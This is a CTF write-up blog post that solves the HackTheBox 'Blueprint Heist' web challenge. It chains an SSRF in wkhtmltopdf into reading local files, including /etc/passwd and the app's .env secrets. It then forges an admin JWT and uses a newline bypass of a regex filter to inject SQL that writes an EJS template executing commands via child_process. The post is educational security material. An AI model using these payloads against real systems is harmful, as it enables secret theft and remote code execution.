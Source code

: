 ```yaml
---
title: "Challenge, Train, Flag: Blueprint Heist"
summary: “Challenge, Train, Flag explores CTF challenges to enhance cybersecurity skills, focusing on exploiting vulnerabilities like SSRF, JWT forging, and SQL injection in real-world scenarios.”
date: 2024-12-08
tag:
    - Cybersecurity
    - Pentesting
    - CTF
    - Code Review
    - SSRF
    - JWT
    - SQL Injection
    - WebSecurity
    - HackTheBox
    - NodeJS
---
```


# Challenge, Train, Flag: Blueprint Heist

At Atlansec, we are committed to **CTFs as a key learning tool** under the _learning by doing_ methodology. We believe that **facing practical challenges is the best way to develop technical skills** and foster creativity. With this section we want to spread the value of CTFs, share _writeups_ of challenges of a certain technical complexity and bring the community closer to a practical and technical approach to learning.

<!-- more -->

### What is a CTF?

Capture the Flag (CTF) competitions are cybersecurity challenges where participants tackle a variety of technical problems to find "flags", which are hidden markers proving successful completion of a task. CTFs simulate real-world scenarios in areas like cryptography, reverse engineering, web security, forensics, and binary exploitation, helping participants build essential cybersecurity skills.

CTFs aren't just competitions; they are a gateway to learning by solving. They teach participants how to think critically, debug complex systems, and adapt under pressure. Each challenge is a story, a puzzle, and a lesson rolled into one.

In this series, we'll explore notable CTF challenges, dive into their technical solutions, and highlight the skills they develop. Welcome to Challenge, Train, Flag!

## Key concepts

- **SSRF (Server-Side Request Forgery):** Technique that allows an attacker to force a server to make HTTP requests on their behalf. Depending on the context, it can be quite critical as it can allow an attacker to access resources within the target's internal network.

- **JSON Web Token (JWT):** An open standard for authenticating and securely transferring information using a token.

- **SQL Injection:** An attack that allows malicious SQL code to be injected into a query to manipulate the database query.

- **wkhtmltopdf:** Library for converting web content (HTML) to PDF.

## The challenge

This time we bring you a challenge from the HTB Business CTF 2024. The challenge is from the web category and although it is listed as easy on the HackTheBox platform, it is one of the most complex web challenges on the platform due to the number of steps that make up the solution.

In this challenge we are given the source code of a NodeJS application and access to a web service running the application.

### Understanding the Application Logic

The challenge starts with access to an application of the urban planning commission. When browsing, we notice that clicking on any of the links generates a POST request to the /download path. Let's review its implementation in the routes file:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Here we can see that the _convertPdf_ function is responsible for handling the logic of this path. Let's go on to examine its code:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

After reading this, we can see that the function makes sure that the parameter it receives is a valid URL before passing it to the _generatePdf_ function. Let's look at the latter next:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

We note that the _generatePdfFromUrl_ function uses _wkhtmltopdf_ to convert the URL content to a PDF file. This flow opens the door to exploit a **SSRF vulnerability** in the library.

### SSRF to local file read on wkhtmltopdf

Using an attacker-controlled server, we can serve files on a web server to redirect the visitor to local file system locations, in this case converting the SSRF on the server into a way to read internal files such as /etc/passwd. To do this, we create a PHP file with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

By passing the URL of our server as a parameter to the /download path, the generated PDF will contain the contents of the /etc/passwd file of the server making the request.

<figure markdown="span">
    ![Reading /etc/passwd with the PDF generator](../../assets/posts/2024/12/08/etc_passwd.png)
  <figcaption>Reading /etc/passwd with the PDF generator</figcaption>
</figure>

We then modify the PHP file to exfiltrate the application's .env file:

```php
<?php header('location:file:///app/.env'); ?>
```

<figure markdown="span">
    ![Reading env file with the PDF generator](../../assets/posts/2024/12/08/env_file.png)
  <figcaption>Reading env file with the PDF generator</figcaption>
</figure>

### JWT Forging

With the key extracted from the .env file, we can sign valid JWT tokens. We use a tool like [JWT.io](https://jwt.io/) to generate a token with the administrator role:

```json
{
  "role": "admin"
}
```

<figure markdown="span">
    ![Edit JWT token on JWT.io](../../assets/posts/2024/12/08/jwt_io.png)
  <figcaption>Edit JWT token on JWT.io</figcaption>
</figure>

Using the token we have generated, we will make a request to the internal admin panel endpoint with the following structure:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

In the generated PDF we can see the contents of the admin panel.  While this generates a screenshot of the admin panel, it only takes us halfway to our ultimate goal.

<figure markdown="span">
    ![PDF with the content of the admin panel](../../assets/posts/2024/12/08/admin_panel_pdf.png)
  <figcaption>PDF with the content of the admin panel</figcaption>
</figure>

### SQL injection to file upload

Analysing the rest of the application code, we discovered that the GraphQL endpoint is vulnerable to SQL injection in the _getDataByName_ query. However, a robust regular expression is used to filter out malicious entries:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

A more detailed analysis shows that the expression is not multiline, which allows us to bypass it with a line break (`n`).

- No line break.

<figure markdown="span">
    ![The regex match our payload](../../assets/posts/2024/12/08/regex_match.png)
  <figcaption>The regex match our payload</figcaption>
</figure>

- With a line break.

<figure markdown="span">
    ![The regex doesn´t match our payload](../../assets/posts/2024/12/08/regex_not_match.png)
  <figcaption>The regex doesn´t match our payload</figcaption>
</figure>

Once this is discovered, we can build a payload for an SQL injection that writes a malicious EJS file to the 404 error path, since the application does not have a path to handle this type of error.

The payload we build should be similar to the following, where we include an EJS template that reads the flag by executing the target binary.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

With the malicious file in place, we access a non-existent path to throw a 404 error and execute the /readflag command. This gives us access to the contents of the flag.

<figure markdown="span">
    ![Reading the flag](../../assets/posts/2024/12/08/flag.png)
  <figcaption>Reading the flag</figcaption>
</figure>

---